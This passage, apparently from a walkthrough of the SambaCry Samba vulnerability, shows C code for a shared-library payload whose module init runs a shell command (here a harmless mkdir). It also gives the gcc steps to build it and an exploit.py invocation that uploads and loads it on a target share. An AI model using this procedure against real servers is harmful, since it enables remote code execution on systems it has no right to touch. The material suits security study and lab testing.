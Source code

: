 ```
        exit(EXIT_FAILURE);
    }

    if (pid > 0) {
        exit(EXIT_SUCCESS);
    }
    umask(0);
	
    sid = setsid();
    if (sid < 0) {
        exit(EXIT_FAILURE);
    }

    if ((chdir("/")) < 0) {
        exit(EXIT_FAILURE);
    }
}

int samba_init_module(void)
{
    detachFromParent();
    char command[50];

    strcpy( command, "mkdir /tmp/test" );
    system(command);
    return 0;
}
```
<br>

Compile run then execute just like before:
<br>

```
gcc -c -fpic execute.c
gcc -shared -o execute.so execute.o

./exploit.py -t localhost -e execute.so \
             -s data -r /data/execute.so \
             -u sambacry -p nosambanocry
			 
```
<br>

![commandExecution](/img/EternalRed/Commands.png)
<br>
